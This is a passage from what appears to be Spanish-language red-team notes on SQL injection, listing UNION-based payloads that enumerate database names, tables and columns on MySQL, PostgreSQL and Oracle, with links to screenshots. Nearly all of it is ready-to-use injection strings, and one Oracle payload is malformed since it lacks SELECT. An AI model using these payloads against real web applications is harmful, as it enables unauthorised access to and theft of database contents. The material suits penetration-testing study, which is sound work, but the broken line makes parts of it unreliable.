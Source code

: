 ```SQL
code' UNION SELECT schema_name FROM information_schema.schemata -- -
```

![imagen error](/images/red_team/web/20241030182002.png)

### ORACLE 1

!!!!solo puedes ver la base de datos en la que estas !!!

```python
code' UNION SELECT GLOBAL_NAME FROM GLOBAL_NAME -- -
code' UNION SYS_CONTEXT('USERENV', 'DB_NAME') FROM DUAL -- -
```

![imagen error](/images/red_team/web/20241030223309.png)

## OBTENER TABLAS DE LA BASE DE DATOS

### MYSQL-PostgreSQL 3

```SQL
code' UNION SELECT TABLE_NAME FROM information_schema.tables WHERE table_schema='*name-database' -- -
```

![imagen error](/images/red_team/web/20241030184826.png)

### ORACLE 2

```PYTHON
code' UNION SELECT TABLE_NAME FROM USER_TABLES -- -
code' UNION SELECT OWNER,TABLE_NAME FROM ALL_TABLES -- -
#COMO ADMINISTRADOR
code' UNION SELECT OWNER,TABLE_NAME FROM DBA_TABLES -- -
```

![imagen error](/images/red_team/web/20241030224215.png)

## OBTENER COLUMNAS DE LA BASE DE DATOS

### MYSQL-PostgreSQL 4

```SQL
code' UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_NAME='*nombre-tabla*' -- -
```

![imagen error](/images/red_team/web/20241030184659.png)

### ORACLE 3
